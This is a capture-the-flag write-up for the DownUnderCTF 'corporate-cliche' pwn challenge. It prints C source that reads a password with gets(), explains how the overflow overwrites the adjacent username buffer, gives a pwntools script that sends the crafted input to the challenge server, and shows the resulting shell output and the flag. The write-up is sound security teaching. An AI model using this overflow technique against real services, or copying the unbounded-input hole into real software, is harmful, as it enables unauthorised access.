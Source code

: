 ```yaml
---
layout: writeup
title: corporate-cliche
tags: Pwn
---
```


## Description

Dear Raahguu,

It's time to really push the envelope and go above and beyond! We've got a new challenge for you. Can you find a way to get into our email server?

Regards,
Blue Alder

The description then provided the source code and binary, along with an `nc` command to remotely connect to the binary that had the actual flag


## Solution

The source code written in `c` was:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void open_admin_session() {
    printf("-> Admin login successful. Opening shell...\n");
    system("/bin/sh");
    exit(0);
}

void print_email() {
    printf(" ______________________________________________________________________\n");
    printf("| To:      all-staff@downunderctf.com                                  |\n");
    printf("| From:    synergy-master@downunderctf.com                             |\n");
    printf("| Subject: Action Item: Leveraging Synergies                           |\n");
    printf("|______________________________________________________________________|\n");
    printf("|                                                                      |\n");
    printf("| Per my last communication, I'm just circling back to action the      |\n");
    printf("| sending of this email to leverage our synergies. Let's touch base    |\n");
    printf("| offline to drill down on the key takeaways and ensure we are all     |\n");
    printf("| aligned on this new paradigm. Moving forward, we need to think       |\n");
    printf("| outside the box to optimize our workflow and get the ball rolling.   |\n");
    printf("|                                                                      |\n");
    printf("| Best,                                                                |\n");
    printf("| A. Manager                                                           |\n");
    printf("|______________________________________________________________________|\n");
    exit(0);
}

const char* logins[][2] = {
    {"admin", "🇦🇩🇲🇮🇳"},
    {"guest", "guest"},
};

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char password[32];
    char username[32];

    printf("┌──────────────────────────────────────┐\n");
    printf("│      Secure Email System v1.337      │\n");
    printf("└──────────────────────────────────────┘\n\n");

    printf("Enter your username: ");
    fgets(username, sizeof(username), stdin);
    username[strcspn(username, "\n")] = 0;

    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }

    printf("Enter your password: ");
    gets(password);

    for (int i = 0; i < sizeof(logins) / sizeof(logins[0]); i++) {
        if (strcmp(username, logins[i][0]) == 0) {
            if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
            } else {
                printf("-> Incorrect password for user '%s'. Access denied.\n", username);
                exit(1);
            }
        }
    }
    printf("-> Login failed. User '%s' not recognized.\n", username);
    exit(1);
}

```

This code reveals a program where you are prompted for a username, and password. Then if your username and password meet the hardcoded admin credentials, you get remote access to the machine.

The trick with this program though, is that if you enter the username `admin` you get kicked out from the connection, and so cannot just login normally.

The key to this challenge is that the `password` buffer is stored right before the `username` buffer in memory, and the input for the password uses `gets`

`gets` is a depricated way to get user input as it does not have a way to restrict the user's input length, and therefore is liable to have the user do buffer overflow within it, in this case buffer overflow from `password` would go into `username`

So If we enter a username, say `Raahguu` then that username will pass the is `username` `admin` check, and then by inputting a password that overflows its buffer into username, we can overwrite the olf username value of `e` with a new value `admin`

Then if the username is `admin` and the password is `🇦🇩🇲🇮🇳` then we log in as admin and get remote shell to read the flag.

To execute this buffer overflow, we just need to input the password `🇦🇩🇲🇮🇳` which is already 20 bytes long due to the 5 4-byte long characters. As the `password` buffer is `32` bytes long, and we already input `20` we just need to input `12` more bytes. 

Now as the password needs to remain the same, we need to tell the program that our string ends after the 20th byte, which we can do by inputing a null bytes `\x00` and then we just need to input `11` more bytes. Afterwards, we are writing into the `username` buffer and need to pass in `admin` and then another null byte `\x00` to tell the program the username ends there.

Now instead of inputting that all myself, I wrote a python program to do it for me:

```python
# Import Pwn Tools
from pwn import *

# nc values
host = "chal.2025.ductf.net"
port = 30000

# Connect to the remote service
conn = remote(host, port)

# Send username
conn.sendline(b"Raahguu")

# Buffer overflow: actual password + 12 null bytes + "admin" + null byte
password = "🇦🇩🇲🇮🇳".encode("utf-8") + b"\x00"*12 + b"admin" + b"\x00"
conn.sendline(password)

# Give me interactive control
conn.interactive()
```

Running this automates the username and password process, and then gives me control of the nc session once we have a remote shell. Running it gets the following output.

```shell
$ python solver.py
[+] Opening connection to chal.2025.ductf.net on port 30000: Done
[*] Switching to interactive mode
┌──────────────────────────────────────┐
│      Secure Email System v1.337      │
└──────────────────────────────────────┘

Enter your username: Enter your password: -> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
flag.txt
get-flag
pwn
$ cat flag.txt
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
```

And there's the flag `DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}`
